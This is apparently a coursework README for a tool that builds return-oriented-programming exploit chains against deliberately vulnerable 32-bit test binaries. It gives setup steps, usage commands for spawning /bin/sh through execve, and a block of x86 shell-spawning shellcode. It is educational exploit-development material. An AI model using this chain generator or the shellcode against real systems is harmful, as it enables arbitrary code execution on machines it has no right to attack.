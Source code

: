 # Return Oriented Programming Chain Script (COMSM0102)

This repo contains code for generating return oriented programming (ROP) exploit chains. The program `auto-padder.py` first works out the amount of padding that is needed to overwrite the return address of the current function. The program `ROPGadget.py`, which is a modified version of the original found [here](https://github.com/JonathanSalwan/ROPgadget), can create ROP chains for arbitrary `execve()` syscalls and can handle .data addresses and values that contain NULL bytes - the program can (nearly) execute arbitrary shellcode. 

## Setting up the environment

We will be running this proof of concept in a Vagrant virtual machine by using the `Vagrantfile` below. We assume that you have vagrant installed on your machine. 
    
```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|
  config.vm.define "box" do |box|
                box.vm.box = "ubuntu/xenial64"
                box.vm.hostname = "SSS-RUN"
                box.vm.provider "virtualbox" do |virtualbox|
        virtualbox.name="SSS-RUN"
    end
  end
end

```

Save the above as a file named `Vagrantfile` into your working directory and run the following in bash to start up and connect to your VM - this might take a while depending on your internet connection.

```
vagrant up
vagrant ssh
```

We can now install some dependencies on the VM by running the following:

```
sudo apt update
sudo apt install -y python3-pip gcc-multilib
pip3 install capstone
```

Traverse into the directory `/vagrant` with:
```
cd /vagrant
``` 

Unzip/extract the provided `code.zip` into your current working directory. If you are cloning the code from a repo, then remember to traverse into the local repository using `cd COMSM0049`.

We can extract the zip with the following:

```
unzip <filename.zip>

```

All of the test programs that we will be using are found in the directory `vulnz` and to compile each of them, we can run:

```
gcc -fno-stack-protector -m32 -static vulnz/vuln1.c -o vulnz/vuln1-32
gcc -fno-stack-protector -m32 -static vulnz/vuln2.c -o vulnz/vuln2-32
gcc -fno-stack-protector -m32 -static vulnz/vuln3.c -o vulnz/vuln3-32
gcc -fno-stack-protector -m32 -static vulnz/vuln4.c -o vulnz/vuln4-32
```

## Running the code

`auto-padder.py` finds the amount of padding needed to overwrite the return address. We can run `auto-padder.py` with the command below - the `--file` flag is used to denote what type of input the buffer overflow makes us of:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 --file
```

We can choose to pipe the value of padding into our modified ROPGadget.py by using the `-p` flag:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 --file -p
```

Running `ROPgadget/ROPgadget.py` will output the generated ROP chain into the file `ropchain`. For debugging purposes, we can view the ropchain using `hexdump -C -v ropchain`

We can use the flags `--file`, `--arg` and `--stdin` to specify what input type the vulnerale file uses or use the shortened versions respectively `-f`, `-a` or `-i`. For example:

```
python3 ROPgadget/auto-padder.py vulnz/vuln1-32 --arg
python3 ROPgadget/auto-padder.py vulnz/vuln2-32 --stdin
```

If we already know the amount of padding that is required to overwrite the return address of the current function, then we can directly run our modifed version of `ROPgadget.py` with the amount of padding paramertised. We do this with the `-p` or `--padding` flags.

```
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln3-32 --padding=44
```

By default, the execve that we run is `execve("/bin/echo", ["/bin/echo", "The", "exploit", "is", "working"], NULL)`. We can now run the generated ROP chain on `vulnz/vuln4-32` and see the `execve` run by using:

```
vulnz/vuln4-32 ropchain
```

## Arbitrary execve()

To generate a ropchain with an arbitrary execve we can set the environment variable `ROPCMD` to run our choosen program. For example:

```
export ROPCMD="/bin/sh"
```

We can then run either `auto-padder.py` to generate the ropchain or we can run `ROPgadget.py` directly as such:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 -f -p
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln4-32 -p=44
```

If we need to, we can can easily remove the environment variable by unsetting it:

```
unset ROPCMD
```

## Arbitrary Shellcode

Our modified `ROPgadget.py` allows us to run arbitrary shellcode. Below we have some example shellcode that we can copy and paste into a file called `shellcode_human_readable`, the file is a hexdump and so any other arbitrary shellcode should in this format.

```
31 c0 50 68 2f 2f 73 68
68 2f 62 69 6e 89 e3 50
53 89 e1 99 b0 0b cd 80
```

We need to convert the hexdump into binary which can be done as the following command:

```
xxd -p -r shellcode_human_readable > shellcode_bin
```

Our shellcode has now been converted from its hex encoding into its binary encoding and is found in the output file `shellcode_bin` which we can now use as our input to our programs. We can then create a ROP chain from either `auto-padder.py` or directly from `ROPGadget.py` as follows:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 -f -p --shellcode shellcode_bin
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln4-32 -p=44 --shellcode shellcode_bin
```

Again, we can run the ROP chain with:

```
vulnz/vuln4-32 ropchain
```

## Help
As per standard, each program has a "help" display which provides the user with more information. This can be accessed with the `-h`/`--help` flag:

```
python3 ROPgadget/ROPgadget.py --help
python3 ROPgadget/auto-padder.py --help
```